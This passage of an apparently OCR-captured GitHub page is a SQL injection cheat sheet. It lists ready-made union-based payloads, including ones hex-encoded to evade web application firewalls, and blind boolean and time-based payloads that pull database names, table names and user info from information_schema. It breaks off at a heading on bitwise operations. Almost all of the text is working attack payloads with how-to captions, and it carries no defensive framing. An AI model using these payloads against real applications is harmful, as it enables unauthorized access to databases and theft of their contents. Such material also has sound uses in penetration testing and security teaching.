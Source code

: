 ##### 1. Union-Based Error Handling

Generate detailed error messages by crafting complex payloads:
```sql
' UNION SELECT 1, version(), database(), user() FROM dual WHERE 1=CAST((SELECT COUNT(*) FROM information_schema.tables) AS INT) --
```

##### 2. Union with Hex Encoding

Encode parts of your query to evade WAFs:
```sql
' UNION SELECT 1, 0x62656e6368, 0x70617373776f7264, user() --
```

##### 3. Multi-Query Union Injection

Leverage multiple queries to extract more data:
```sql
' UNION SELECT 1, database(), (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=database()), user() --
```

##### 4. Union-Based Cross Database Extraction

Combine data from different databases (when supported):
```sql
' UNION SELECT 1, (SELECT column_name FROM db1.table1 LIMIT 1), (SELECT column_name FROM db2.table2 LIMIT 1), user() --
```

### Advanced Boolean-Based SQL Injection

##### 1. Time-Based Boolean Injection with Conditional Responses

Use time delays to infer data based on conditional responses:
```sql
' AND IF((SELECT LENGTH(database()))>5, SLEEP(5), 0) --
```

##### 2. Nested Boolean Injections

Nest conditions to extract specific data:
```sql
' AND IF((SELECT SUBSTRING((SELECT table_name FROM information_schema.tables LIMIT 1), 1, 1))='a', SLEEP(5), 0) --
```

##### 3. Error-Based Boolean Injection

Force errors conditionally to reveal information:
```sql
' AND IF((SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database())>5, (SELECT table_name FROM information_schema.tables), 1) --
```

##### 4. Using Bitwise Operations
